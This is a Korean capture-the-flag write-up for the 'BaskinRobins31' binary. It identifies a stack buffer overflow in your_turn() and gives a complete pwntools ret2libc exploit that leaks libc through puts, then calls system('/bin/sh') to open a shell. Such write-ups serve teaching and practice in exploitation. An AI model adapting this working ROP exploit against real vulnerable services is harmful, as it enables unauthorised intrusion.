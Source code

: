 # 문제
***

BaskinRobins31 바이너리의 checksec 결과는 다음과 같다. 
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

file 명령어의 결과는 다음과 같다.
```
BaskinRobins31: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=4abb416c74a16aaa8b4c9c6c366bed445c306037, not stripped
```

바이너리 코드

__main()__ 

```
int __cdecl main(int argc, const char ** argv, const char ** envp)
{
    ...
    v5 = 31;
    v6 = 0;
    
    while( (signed int)v5 > 0)
    {
        if(v6)
        {
            my_turn(&v5);
            v6 = 0;
        }
        else
        {
            v6 = (unsigned __int64)your_turn(&v5) != 0;
        }
        ...
    }
    if(v6)
    {
        puts("Wow! You win!");
        ...
    }
    ...
}
```

__your_turn()__
```
signed __int64 __fastcall your_turn(_DWORD *a1)
{
    char s; // [rbp-B0h]
    ...
    v4 = 0;
    memset(&s,0,0x96);
    ...
    n = read(0,&s,0x190);
    write(1,&s,n);
    putchar(10);
    v4 = strtoul(&s,0,10);
    if((unsigned int)check_decision(v4))
    {
        *a1 -= v4;
        result = 1;
    }
    else
    {
        ...
        result = 0;
    }
    return result;
}
```

__your_turn()__ 함수에 bof 취약점이 존재한다. <br/><br/>
ROP gadget을 이용해서 libc base address를 알아낸 뒤에 다시 __your_turn()__ 함수를 호출한다.<br/><br/>
그 다음에 다시 bof를 통해서 system 함수를 호출하는 ROP gadget을 구성하면 쉘을 딸 수 있다.


# 풀이
***
```
#!/usr/bin/python

from pwn import *

file_path="/home/sungyun/round3/baskinrobins31/BaskinRobins31"

libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")

p=process(file_path)

p.recvuntil("(1-3)\n")

puts_got=0x602020
puts_plt=0x4006c0
prdi=0x0000000000400bc3
your_turn=0x00000000004008a4

pay="A"*(0xb0+8)
pay+=p64(prdi)
pay+=p64(puts_got)
pay+=p64(puts_plt)
pay+=p64(your_turn)

p.send(pay)
p.recvuntil(":( \n")

puts=p.recvline()[::-1]
puts=puts[1:]
libc_base=int(puts.encode('hex'),16)-libc.symbols['puts']
system=libc_base+libc.symbols['system']
sh=libc_base+list(libc.search('/bin/sh\x00'))[0]

p.recvuntil("(1-3)\n")

pay2="A"*(0xb0+8)
pay2+=p64(prdi)
pay2+=p64(sh)
pay2+=p64(system)

p.send(pay2)
p.recvuntil(":( \n")

p.interactive()
```




